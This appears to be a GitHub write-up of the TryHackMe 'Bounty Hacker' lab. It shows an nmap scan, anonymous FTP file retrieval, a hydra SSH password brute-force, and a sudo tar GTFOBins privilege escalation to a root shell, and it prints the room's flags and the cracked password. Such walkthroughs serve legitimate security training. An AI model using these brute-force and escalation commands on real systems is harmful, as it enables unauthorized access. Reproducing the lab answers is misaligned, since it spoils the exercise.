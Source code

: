 # Bounty_Hunter_THM

### Find open ports on the machine
    nmap -A -sV -O -T4 <IP> nmap 

![Screenshot 2022-02-07 123805](https://user-images.githubusercontent.com/86057471/152778765-ba6e1a7f-aeee-4473-af2c-df6195bc68f2.png)

### Who wrote the task list?
   Using nmap we can see that ftp is open so we can connect to that: ftp <IP>\
    We then need to login as a user: anonymous
    
![image](https://user-images.githubusercontent.com/86057471/152773252-433f1f4a-bfb3-4a24-8d2b-fb8775aed28a.png)

   Using ls we find two files, locks.txt and task.txt\
    To view it we need to download it to our directory: get task.txt, get locks.txt
    
![get](https://user-images.githubusercontent.com/86057471/152773499-0f2e8239-8f63-4a84-9a1e-ad9c90f7f48b.png)

   Back in our directory we see we now have both files.\
    Let's print out the contents of the files: cat task.txt, cat locks.txt
    
![cat](https://user-images.githubusercontent.com/86057471/152774079-42991961-e195-446a-8397-cd9720d81d25.png)

   Looking at the contents of the file of task.txt we see 2 task written by user **lin**
  
### What service can you bruteforce with the text file found?
**ssh**
  
### What is the users password? 
Printing out the contents of locks.txt we got a list of passwords.\
Now with a user(lin) and a list of passwords we can use hydra to login with ssh.\
hydra -t 16 -l lin -P locks.txt -vV <IP> ssh 
    
![hydra](https://user-images.githubusercontent.com/86057471/152775416-0949d903-8475-423e-84a2-3fb37173c826.png)

We get the password **RedDr4gonSynd1cat3**
  
### user.txt
Let's login with ssh and the password
    
 ![ssh login](https://user-images.githubusercontent.com/86057471/152775754-e58cf0bd-c2a7-419d-a1a6-cc9f46c004b3.png)

Find the user.txt: find / -name user.txt\
The file is in /home/lin/Desktop/user.txt
    
 ![user txt](https://user-images.githubusercontent.com/86057471/152776740-2ecd1929-6917-4fa8-9133-23f8dff54f1c.png)

Let's go over there and print to contents: We get **THM{CR1M3_SyNd1C4T3}**
 
### root.txt
If we try to cd to root we see that we don't have permission\
We can check of lin has any sudo commands she can run: sudo -l
    
 ![sudo -l](https://user-images.githubusercontent.com/86057471/152777807-d52bdf01-2fe5-4036-af2a-75b6addb1edc.png)

Lin can run /bin/tar as root\
Using GTFOBins we can elevate our privilege: https://gtfobins.github.io/gtfobins/tar/ : sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh\
Now that we have root we can cat root.txt: **THM{80UN7Y_h4cK3r}**
    
 ![image](https://user-images.githubusercontent.com/86057471/152778445-e5d1d6cd-bd81-421d-98e0-4d9d27dc03b5.png)

    
  

    
    
